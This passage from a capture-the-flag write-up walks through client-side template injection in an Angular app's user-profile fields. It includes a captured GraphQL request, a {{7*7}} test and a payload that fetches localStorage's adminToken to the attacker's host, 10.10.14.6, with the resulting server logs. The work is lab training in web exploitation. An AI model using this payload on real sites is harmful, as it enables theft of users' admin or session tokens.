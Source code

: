     Pragma: no-cache
    Cache-Control: no-cache
    
    {"operationName":"update","variables":{"firstname":"0xdf","lastname":"fdx0","id":"62e18bc9568b5804349422fb","newusername":"0xdf"},"query":"mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {\n  update(\n    newusername: $newusername\n    id: $id\n    firstname: $firstname\n    lastname: $lastname\n  ) {\n    username\n    email\n    id\n    firstname\n    lastname\n    __typename\n  }\n}"}
    

To submit this form, I must know the `id` for the user to change. I did some
playing with the `newusername` field, but I wasn’t able to change my username.

#### CSTI POC

I’ll try a template injection payload like `{{ 7*7 }}` in the only two
editable fields:

![image-20220727150531292](https://0xdfimages.gitlab.io/img/image-20220727150531292.png)

Both are vulnerable.

Looking in Local Storage, it’s the unexecuted data still:

![image-20220727150605298](https://0xdfimages.gitlab.io/img/image-20220727150605298.png)

This is very similar to a server-side template injection (SSTI), except that
the injection is happening client-side, in the JavaScript on the local user’s
browser. So poisoning my own user isn’t very useful, but if I can get this
kind of payload into the database for another user, I can potentially execute
JavaScript on their browser.

#### Exfil Admin Token

Since it seems likely that having the `adminToken` of a real admin is going to
be useful, I’ll use this CSTI to collect it. HackTricks has a [nice page on
Angular CSTI](https://book.hacktricks.xyz/pentesting-web/client-side-template-
injection-csti#angularjs) which provides this payload:

    
    
    {{constructor.constructor('alert(1)')()}}
    

I’ll update my first name and on clicking Save:

![image-20220727151549853](https://0xdfimages.gitlab.io/img/image-20220727151549853.png)

To leak the value from Local Storage, I’ll make sure mine exists (it gets
cleared each time my account is nuked), and try this payload:

    
    
    {{constructor.constructor('fetch("http://10.10.14.6/" + localStorage.getItem("adminToken"))')()}}
    

On submitting this as my name, there’s a request at my Python webserver:

    
    
    10.10.14.6 - - [27/Jul/2022 18:01:55] code 404, message File not found
    10.10.14.6 - - [27/Jul/2022 18:01:55] "GET /fakeAdminToken HTTP/1.1" 404 -
    10.10.14.6 - - [27/Jul/2022 18:01:55] code 404, message File not found
    10.10.14.6 - - [27/Jul/2022 18:01:55] "GET /fakeAdminToken HTTP/1.1" 404 -
    